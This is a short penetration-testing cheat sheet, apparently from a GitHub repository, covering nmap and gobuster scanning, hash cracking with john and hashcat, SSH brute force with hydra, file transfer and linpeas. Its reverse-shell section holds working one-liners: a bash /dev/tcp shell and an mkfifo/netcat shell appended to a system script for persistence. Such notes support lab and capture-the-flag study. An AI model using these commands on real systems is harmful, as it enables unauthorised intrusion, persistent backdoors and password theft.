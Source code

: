 # Pentest CheatSheet

## Simple shortcuts

To keep your victim adress IP choose one of this solutions :

Add the IP adress to your hosts file
```
sudo vim /etc/hosts

<IP> victim_serveur
```
Add the IP adress to your local environment. Be carreful it's not shared on all of your terminals.
```
export IP=<IP>
```

## SCAN SERVER 

-sC Scan with scripts  
-sV Scan ports and show version  
-A  Scan OS and version  
-p- Scan all ports  
-oN Output to a file  

```
nmap -sC -sV -oN nmap.log <IP>
nmap -sC -sV -A -oN nmap_all.log <IP> 
nmap -sC -sV -A -p- -oN nmap_allports.log <IP> 
```
	
## SCAN HIDDEN WEB FILES

Scan a server with web content in order to find hidden folder or files.  
-u Adress (you can precise port with ':')  
-w Dictionnary  
-x Extension file to search for  
-o Output to a file  

```
gobuster dir -u http://<IP> -w directory-list-2.3-medium.txt -o gobuster.txt
gobuster dir -u http://<IP> -w directory-list-2.3-medium.txt -o gobuster.txt -x txt,js,html,php
```
## REVERSE SHELL

CheatSheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Open a reverse shell

Victim :
```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f" >> /usr/local/bin/main_backup.sh
```
Listener:
```
nc -lvp <PORT>
```

### Stabilyze your shell

Open a tty
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enable autocomplete and special characters once you got a reverse shell:  
```
<CTRL-Z>  
stty raw -echo; fg <ENTER><ENTER>  
```
## HASH

### Analyze Hash :

online : 
https://www.tunnelsup.com/hash-analyzer/

cmd :
```
hashid <HASH>
hash-identifier
```
### Decrypt Hash :

online :
https://md5decrypt.net/
https://gchq.github.io/CyberChef/

cmd:

Base64 decrypt:
```
echo '<HASH>' | base64 -d
```

Other :
```
john --format=<JOHN-FORMAT> --wordlist=rockyou.txt hash.txt
hashcat -m <HASHCAT-FORMAT> -a 0 -o cracked.txt hash.txt rockyou.txt
```

## BRUTEFORCE SSH

-l Single User  
-L User file  
-p Single Password  
-P Password file  
```
hydra -l <USER> -P rockyou.txt <IP> ssh -t 4
```

## TRANSFERT FILES

via ssh:
```
scp <FILE-PATH> <USER>@<IP>:<FILE-PATH>
```

Host web server on your machine and wget on the victim:
```
python3 -m http.server 4444
wget <IP>:4444
```

## USEFULL FILE

### Dictionnary

Password :  
rockyou.txt --> /usr/share/wordlists/rockyou.txt.gz  

Hidden web folder and file:  
Quite complete : directory-list-2.3-medium.txt --> /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  
Short ones more or less complete: small.txt - common.txt - big.txt --> /usr/share/dirb/wordlists/  

### Check local vulns

linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS